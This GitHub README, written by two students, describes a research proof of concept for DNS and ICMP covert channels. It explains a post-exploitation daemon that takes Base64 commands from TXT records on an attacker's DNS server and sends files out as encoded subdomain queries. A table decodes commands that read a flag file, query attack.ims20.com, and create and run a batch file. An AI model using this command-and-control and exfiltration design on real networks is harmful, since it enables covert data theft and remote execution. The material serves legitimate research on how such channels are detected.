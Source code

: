 # Covert Channels - A proof of concept
Covert channels serve as a way to transport data out of a network or inside a network. All of this happens in a hidden manner. So the real trick with covert channels is to hide the communication between two parties behind some kind of cover. This repository contains a proof of concept for storage based covert channels using DNS and ICMP.
## Foreword
All code and configuration contained in this repository was developed by Simon Schönegger and Lejla Sarcevic during research regarding covert channels. This code is not intended for malicious use - it should serve as an example on how covert channels can be established and how they may be uncovered.

## DNS Covert Channel
Code and configration for a DNS Covert channel can be found under the DNS folder in this repository.
### Infrastructure
This covert channels is used post exploitation. This means we require an infected client that runns our script. We wrote this script using python but requiring a python interpreter on the victim is not the way to go - it should be written in a language that can access the filesystem as well as the network and is native to the operating system - something like C.


The second requirement is a DNS server under our control. This 'evil' DNS server needs to be listed on a legit DNS server so that it can be queried without setting the default DNS server on the victim machine. For our proof of concept we used a ubuntu server 18.04. It runs bind9 as a dns server.

### Daemon
Our deamon script is run on the infected machine. It performs queries against our DNS server.
 The important part here is that the DNS server returns TXT records on specific subdomains. 
 These TXT records are used to store the commands we want to execute on the infected machine. 
 Further information about the records can be found in the configuration section. 
 
 
 The basic intention of the script is to simply interpret the commands it receives from the DNS server.
 If it is instructed to exfiltrate data it performs a DNS query and uses the encrypted data as sub domain.
 This way the exfiltrated data can be found in the query log of the server. The server could also run a script
 which analyzes the received DNS queries for exfiltrated data.
 
 It may also create files on the infected system as well as add content to these files. It is capable of executing
 the files. In this way payload can be brought to the infected system (later described under configuration).
 
 One drawback of our published daemon script is that it only interprets data once. It should be hooked in a way that
 it always waits for commands added on the server. This can be done without much effort but we did not bother to 
 include it in this small proof of concept.
 
 Commands are Base64 encoded, exfiltrated data is encoded using Base32.
 
 ### Configuration
 I will not go into too much detail about the configuration of bind9 since this can be easily googled and is not
 in scope of this work.
 
 
 The interesting part for are the zone files. It contains the records that the DNS server will return for speficic
 queries. The configuration files themselves can be found in the DNS section of this repository. I would recommend reading
 them before you continue to read here.
 

As seen in the configuration files it contains Base64 encoded data TXT sections. This data is the actual payload that 
the daemon can interpret. I will decode the commands and describe the actions of the daemon for a better understanding

|Record | Decoded | Action of the daemon |
|-------|---------|----------------------|
|e3JlYWQgQzpcVXNlcnNcUHVibGljXERvY3VtZW50c1xmbGFnLnR4dH17YXNrIGF0dGFjay5pbXMyMC5jb219|{read C:\Users\Public\Documents\flag.txt}{ask attack.ims20.com}| read contents of flag.txt and query attack.ims20.com for instructions|
|e2NyZWF0ZSBDOlxVc2Vyc1xQdWJsaWNcRG9jdW1lbnRzXGV4cGxvaXQuYmF0ICBDOlxXaW5kb3dzXHN5c3RlbTMyXGNhbGMuZXhlfXthc2sgcnVubmVyLmltczIwLmNvbX0=|{create C:\Users\Public\Documents\exploit.bat  C:\Windows\system32\calc.exe}{ask runner.ims20.com}| Create exploit.bat, write the payload to it and ask runner.ims20.com for instructions|
|e3J1biBDOlxVc2Vyc1xQdWJsaWNcRG9jdW1lbnRzXGV4cGxvaXQuYmF0fQ==|{run C:\Users\Public\Documents\exploit.bat}| Execute exploit.bat (launches a calculator)|
 
 
It is crucial to configure query logging on the server. I won't go into too much detail on how to do that, however i will
share my apparmor configuration.


## ICMP Covert Channel
Code for this covert channel can be found in the ICMP folder in this repository. All commands used in the ICMP data 
section are set behind *{}* which are not encrypted so our scripts can simply find the commands.
### Infrastructure
Once again, we require a infected machine. Our daemon will be run on that machine. We also require a commander that is able
to send icmp packages to the infected machine. If this is not directly possible, we can also implement a chain of commands
to tranfer data over multiple machines to the outside. Our script could be extended in that manner. The daemon would be 
required to run on all of the chained machines and would need to forward to the correct IP addresses.

### Commander
In our case the commander only sends a limited number of commands to the daemon. The commander only sends 
*{e3JlYWQgfi9mbGFnLnR4dH0=}* which translates to *{{read ~/flag.txt}}*. The commander has to be able to 
listen for incoming pings aswell since the daemon will reach out to it once the command is run. The commander
specifies a different command set than the daemon. In that way the echo replies of the daemon will not be 
interpreted and cause no loop.

The commander sends it commands Base64 encoded.


Listener and commander are run in different Threads.

### Daemon
The daemon waits for incoming ICMP packages. Once it receives one, it seaches for the commands. It interprets the 
command accordingly and sends back a ICMP package to the commander. The daemon encodes its payload with Base32 in contrast
to the Commander which always encodes commands in Base64.

# Contact
Simon Schönegger 
* [LinkedIn](https://www.linkedin.com/in/simon-sch%C3%B6negger-b4b663165/)
* Mail: simon.schoenegger@edu.fh-joanneum.at

Lejla Sarcevic
* Mail: lejla.sarcevic@edu.fh-joanneum.at
